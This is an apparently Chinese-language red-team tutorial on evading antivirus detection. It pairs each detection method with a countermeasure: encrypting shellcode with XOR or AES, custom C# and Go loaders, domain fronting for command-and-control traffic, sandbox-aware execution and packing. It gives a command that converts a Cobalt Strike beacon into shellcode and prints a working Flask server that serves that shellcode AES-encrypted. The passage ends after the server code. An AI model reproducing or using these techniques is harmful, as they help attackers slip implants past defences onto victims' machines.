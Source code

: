 **查杀方式**

> 文件查杀（Signatured Static Scanning） 内存扫描（Run-time Analysis） 流量分析（NIPS/NIDS） 行为分析（behavior Monitoring）

**对抗-静态扫描（文件查杀）**

1、shellcode加密（XOR、AES）

避免被杀软直接获取到真正shellcode（因为性能等原因 杀软不会暴力枚举解密内容）

2、源码级免杀（自主研发C\&C工具）

**对抗-内存扫描**

各种语言自定义加载器，比如使用C# 编写ShellCode Loader

运行机制不同（C#使用虚拟机解释后运行，Golang编译运行）杀软没足够精力跟进各种形式的加载器

**对抗-流量分析**

域前置 - Domain Fronting

&#x20;流量路径`CDN->IP->c2`

**对抗-行为分析**

指定特定的运行条件，符合条件才执行恶意操作；避免在沙箱、逆向分析时有明显的恶意行为。

适合指定某个重要目标的情况下使用，比如要拿域内的某台重要靶标。

或者可以加强壳，例如VMP

#### 一、shellcode加密

推荐一个脚本：[https://github.com/rvrsh3ll/CPLResourceRunner](https://github.com/rvrsh3ll/CPLResourceRunner)

可以把CS生成的RAW的beacon.bin转成shellcode

```
python2 ConvertShellcode.py beacon.bin
```

**服务端：Python Flask动态加密Shellcode**

```python
#服务端起个Flask动态加密，__init__.py
#coding=utf-8
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from flask import Flask

def add_to_32(key):
    while len(key) % 32 != 0:
        key += '\0'
    return str.encode(key)  # 返回bytes,密钥不是32位就不全

def create_app():
    # create and configure the app
    app = Flask(__name__, instance_relative_config=True)
    @app.route('/<string:key>', methods=('GET', 'POST'))
    def AES_Encrypt(key):
        BLOCK_SIZE = 32  # Bytes
        f = open('./shellcode.txt', 'r')	#从CS导出的C#格式的shellcode，放在Fask应用根目录
        shellcode = f.read()
        cipher = AES.new(add_to_32(key), AES.MODE_ECB)
        encrypted = cipher.encrypt(pad(shellcode.encode('utf-8'),BLOCK_SIZE))
        encrypted_text = str(base64.encodebytes(encrypted), encoding='utf-8')
        #加密结果用base64编码
        return encrypted_text
    return app
```